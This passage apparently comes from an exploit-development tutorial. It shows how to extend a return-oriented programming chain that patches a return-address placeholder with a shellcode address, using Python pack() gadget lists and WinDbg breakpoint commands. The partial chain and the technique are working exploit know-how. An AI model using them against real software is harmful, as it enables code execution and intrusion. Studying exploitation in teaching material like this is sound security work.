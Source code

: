 A common instruction we might find in a gadget is the incremental (INC) instruction. These instructions increase the value in a register by one.

In our case, we can find an INC ESI instruction in multiple gadgets. None of the gadgets are clean, but it's possible to find one without any bad side effects
	rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
	...
	rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
	rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
	rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
	rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
	rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
	rop += b"C" * (0x400 - 276 - 4 - len(rop))

Notice that we use the increment instruction four times to have ESI increased by four bytes. The side effect will only modify EAX, which we do not have to worry about at this point.

After setting our breakpoint at this new gadget and executing the updated ROP chain, we find that the increment gadgets are executed:
	bp 0x50522fa7
	g
	dd esi L2
	p
	p
	p
	dd esi L1


In Listing 57, we skipped from the first INC ESI to the last. Here we find that ESI is now pointing to the address of the placeholder value for the return address, which was initially set as 0x46464646.

With ESI aligned correctly, we need to get the shellcode address in EAX so that we can reuse the "MOV DWORD [ESI], EAX ; RET" gadget to patch the placeholder value.

We will solve this problem by using the value in ESI and adding a fixed value to it. Once we finish building the ROP chain, we can update the fixed value to correctly align with the beginning of the shellcode.

First, we need to copy ESI into EAX. We need to do this in such a way that we keep the existing value in ESI, since we need it there to patch the placeholder value. An instruction like "MOV EAX, ESI" is optimal, but unfortunately, the only gadgets containing this instruction also pop a value into ESI. We can however solve this by restoring the value in ESI with the previously-used "PUSH EAX ; POP ESI ; RET" gadget.

Since we need to add a small positive offset to EAX, we have to deal with null bytes again. We can solve this once more by using a negative value.

Here we can simply use an arbitrary value, such as 0x210 bytes, represented as the negative value 0xfffffdf0. (The reason we use 0x210 instead of 0x200 is to avoid null bytes.)

We pop this negative value into ECX and use a gadget containing a SUB EAX, ECX instruction to set up EAX correctly. The required gadgets are given in Listing 58 as part of the updated ROP chain.
	rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
	...
	rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
	rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
	rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
	rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
	rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
	rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
	rop += pack("<L", (0x42424242)) # junk
	rop += pack("<L", (0x5052f773)) # push eax ; pop esi ; ret
	rop += pack("<L", (0x505115a3)) # pop ecx ; ret
	rop += pack("<L", (0xfffffdf0)) # -0x210
	rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret
	rop += b"C" * (0x400 - 276 - 4 - len(rop))
